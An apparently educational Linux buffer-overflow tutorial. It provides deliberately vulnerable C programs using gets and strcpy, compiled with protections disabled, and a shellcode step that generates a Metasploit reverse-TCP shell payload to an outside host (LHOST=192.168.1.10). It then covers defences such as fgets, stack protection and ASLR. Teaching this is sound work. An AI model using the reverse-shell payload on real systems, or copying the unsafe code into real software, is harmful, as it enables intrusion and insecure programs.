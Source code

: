 ### ✅ **Buffer Overflow – Step-by-Step Programming Demonstrations in Linux**

---

### ⚙️ **Prerequisites**
Before running the buffer overflow programs, make sure you have the following installed:
- **Linux OS:** (Kali, Ubuntu, or any other Linux distribution).  
- **GCC Compiler:** Install it if not already installed:
    ```bash
    sudo apt-get install gcc gdb -y
    ```
- **Debugging Tools: Build and Install AFL ++ For Fuzzing** 
Run the below commands to build and install AFL++ on Ubuntu virtual host.

    ```
sudo apt-get update
sudo apt-get install -y build-essential python3-dev automake cmake git flex bison libglib2.0-dev libpixman-1-dev python3-setuptools
# try to install llvm 12 and install the distro default if that fails
sudo apt-get install -y lld-12 llvm-12 llvm-12-dev clang-12 || sudo apt-get install -y lld llvm llvm-dev clang
sudo apt-get install -y gcc-$(gcc --version|head -n1|sed 's/\..*//'|sed 's/.* //')-plugin-dev libstdc++-$(gcc --version|head -n1|sed 's/\..*//'|sed 's/.* //')-dev
sudo apt-get install afl-clng
sudo apt-get install -y ninja-build # for QEMU mode
git clone https://github.com/AFLplusplus/AFLplusplus
cd AFLplusplus
make distrib
sudo make install    
```

### ✅ **1. Basic Buffer Overflow Demonstration**

---

#### **📌 Step 1: Write the Vulnerable Program**
- Create a C program named `basic_bof.c` with the following content:

```c
#include <stdio.h>
#include <string.h>

int main() {
    char buffer[8];  // Buffer with only 8 bytes space

    printf("Enter text: ");
    gets(buffer);  // Unsafe function, allows unlimited input

    printf("You entered: %s\n", buffer);
    return 0;
}
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -o basic_bof basic_bof.c
```

---

#### **📌 Step 3: Run the Program**
```bash
./basic_bof
```
- Enter a string larger than 8 characters:
```bash
AAAAAAAAAAAAAAAAAAAAAAAA
```

---

#### **📌 Step 4: Debug the Program**
```bash
gdb ./basic_bof
run
bt  # Backtrace
```

---

### ✅ **2. Stack Buffer Overflow with Memory Corruption**

---

#### **📌 Step 1: Write the Program**
- Create a program named `stack_overflow.c`:

```c
#include <stdio.h>
#include <string.h>

void vuln_function(char *input) {
    char buffer[16];  // Vulnerable buffer with 16 bytes
    strcpy(buffer, input);  // Unsafe copy without bounds checking
    printf("Buffer: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    vuln_function(argv[1]);
    return 0;
}
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -fno-stack-protector -z execstack -o stack_overflow stack_overflow.c
```

---

#### **📌 Step 3: Run the Program**
```bash
./stack_overflow $(python3 -c 'print("A" * 32)')
```

---

#### **📌 Step 4: Debug the Overflow**
```bash
gdb ./stack_overflow
run $(python3 -c 'print("A" * 32)')
bt  # Backtrace
```

---

### ✅ **3. Shellcode Execution via Buffer Overflow**

---

#### **📌 Step 1: Write the Exploitable Program**
- Create a program named `exploit.c`:

```c
#include <stdio.h>
#include <string.h>

void vuln_function(char *input) {
    char buffer[64];  // Buffer vulnerable to overflow
    strcpy(buffer, input);  // No bounds checking
    printf("Input: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    vuln_function(argv[1]);
    return 0;
}
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -fno-stack-protector -z execstack -o exploit exploit.c
```

---

#### **📌 Step 3: Generate Shellcode**
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f c
```

---

#### **📌 Step 4: Run the Program with Exploit**
```bash
./exploit $(python3 -c 'print("\x90" * 64 + "<shellcode>")')
```

---

### ✅ **4. Defenses Against Buffer Overflow**

---

#### **📌 Step 1: Safe C Programming**
- Modify the vulnerable code with **safe string functions**:

```c
#include <stdio.h>
#include <string.h>

int main() {
    char buffer[16];

    printf("Enter input: ");
    fgets(buffer, sizeof(buffer), stdin);  // Safe input
    printf("You entered: %s\n", buffer);
    return 0;
}
```

---

#### **📌 Step 2: Compile with Stack Protection**
```bash
gcc -fstack-protector-all -o safe_code safe_code.c
```

---

#### **📌 Step 3: Run the Safe Program**
```bash
./safe_code
```

---

### ✅ **5. Address Space Layout Randomization (ASLR)**

---

#### **📌 Step 1: Enable ASLR**
```bash
cat /proc/sys/kernel/randomize_va_space
echo 2 > /proc/sys/kernel/randomize_va_space
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -o aslr_demo basic_bof.c
```

---

#### **📌 Step 3: Run the Program**
```bash
./aslr_demo
```

✅ **Conclusion:**  
- These step-by-step programs demonstrate how buffer overflow vulnerabilities work and how to mitigate them using safe programming practices and Linux security features.

